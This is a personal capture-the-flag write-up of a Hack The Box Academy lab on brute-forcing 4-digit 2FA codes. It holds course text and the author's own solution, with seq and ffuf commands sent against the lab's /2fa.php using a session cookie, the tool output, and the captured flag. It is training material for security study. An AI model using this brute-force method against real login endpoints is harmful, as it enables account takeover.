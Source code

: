 ```yaml
---
sticker: emoji//1faaa
---
```


# Brute-Forcing 2FA Codes

Two-factor authentication (2FA) provides an additional layer of security to protect user accounts from unauthorized access. Typically, this is achieved by combining knowledge-based authentication (password) with ownership-based authentication (the 2FA device). However, 2FA can also be achieved by combining any other two of the major three authentication categories we discussed previously. Therefore, 2FA makes it significantly more difficult for attackers to access an account even if they manage to obtain the user's credentials. By requiring users to provide a second form of authentication, such as a one-time code generated by an authenticator app or sent via SMS, 2FA mitigates the risk of unauthorized access. This extra layer of security significantly enhances the overall security posture of an account, reducing the likelihood of successful account breaches.

***

### Attacking Two-Factor Authentication (2FA)

One of the most common 2FA implementations relies on the user's password and a time-based one-time password (TOTP) provided to the user's smartphone by an authenticator app or via SMS. These TOTPs typically consist only of digits, making them potentially guessable if the length is insufficient and the web application does not implement measures against successive submission of incorrect TOTPs. For our lab, we will assume that we obtained valid credentials in a prior phishing attack: `admin:admin`. However, the web application is secured with 2FA, as we can see after logging in with the obtained credentials:

&#x20; &#x20;

![](https://academy.hackthebox.com/storage/modules/269/bf/bf_2fa_1.png)

The message in the web application shows that the TOTP is a 4-digit code. Since there are only `10,000` possible variations, we can easily try all possible codes. To achieve this, let us first take a look at the corresponding request to prepare our parameters for `ffuf`:

![image](https://academy.hackthebox.com/storage/modules/269/bf/bf_2fa_2.png)

As we can see, the TOTP is passed in the `otp` POST parameter. Furthermore, we need to specify our session token in the `PHPSESSID` cookie to associate the TOTP with our authenticated session. Just like in the previous section, we can generate a wordlist containing all 4-digit numbers from `0000` to `9999` like so:

```shell-session
smoothment@htb[/htb]$ seq -w 0 9999 > tokens.txt
```

Afterward, we can use the following command to brute-force the correct TOTP by filtering out responses containing the `Invalid 2FA Code` error message:

```shell-session
smoothment@htb[/htb]$ ffuf -w ./tokens.txt -u http://bf_2fa.htb/2fa.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=fpfcm5b8dh1ibfa7idg0he7l93" -d "otp=FUZZ" -fr "Invalid 2FA Code"

<SNIP>
[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 648ms]
    * FUZZ: 6513
[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 635ms]
    * FUZZ: 6514

<SNIP>
[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 1ms]
    * FUZZ: 9999
```

As we can see, we get many hits. That is because our session successfully passed the 2FA check after we had supplied the correct TOTP. Since `6513` was the first hit, we can assume this was the correct TOTP. Afterward, our session is marked as fully authenticated, so all requests using our session cookie are redirected to `/admin.php`. To access the protected page, we can simply access the endpoint `/admin.php` in the web browser and see that we successfully passed 2FA.

## Question

***

![](images/Pasted%20image%2020250214162315.png)

Ok, let's authenticate:

![](images/Pasted%20image%2020250214162403.png)

Once we try to authenticate, we go to `/2fa.php` and subsequently, we are able to see this:

![](images/Pasted%20image%2020250214162451.png)

We need a 2FA code, but we do not have one, what can we do now?

This is were brute-forcing the 2fa code, comes in handy, let's do it:

First, let's generate our list of codes:

```
seq -w 0 9999 > tokens.txt
```

Next, let's check the response of what an invalid code looks like, for example, if we enter 1111:

![](images/Pasted%20image%2020250214162733.png)

We get `Invalid 2FA Code`, knowing all this, we can build our ffuf command:

```
ffuf -w ./tokens.txt -u http://94.237.54.116:39864/2fa.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=vcvsoagh3ordpepfb49nanpv57" -d "otp=FUZZ" -fr "Invalid 2FA Code" -ic -c -t 200 
```

After a while, we get this:

```
ffuf -w ./tokens.txt -u http://94.237.54.116:39864/2fa.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=vcvsoagh3ordpepfb49nanpv57" -d "otp=FUZZ" -fr "Invalid 2FA Code" -ic -c -t 200

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://94.237.54.116:39864/2fa.php
 :: Wordlist         : FUZZ: /home/samsepiol/tokens.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Header           : Cookie: PHPSESSID=vcvsoagh3ordpepfb49nanpv57
 :: Data             : otp=FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: Invalid 2FA Code
________________________________________________

0085                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 792ms]
0097                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 776ms]
0041                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 790ms]
0022                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 808ms]
0043                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 807ms]
0038                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 806ms]
```

The first code is our 2fa code:

```
0085
```

We can now authenticate:

![](images/Pasted%20image%2020250214163819.png)

Flag is:

```
HTB{9837b33a1ef678c380addf7ef8a517de}
```

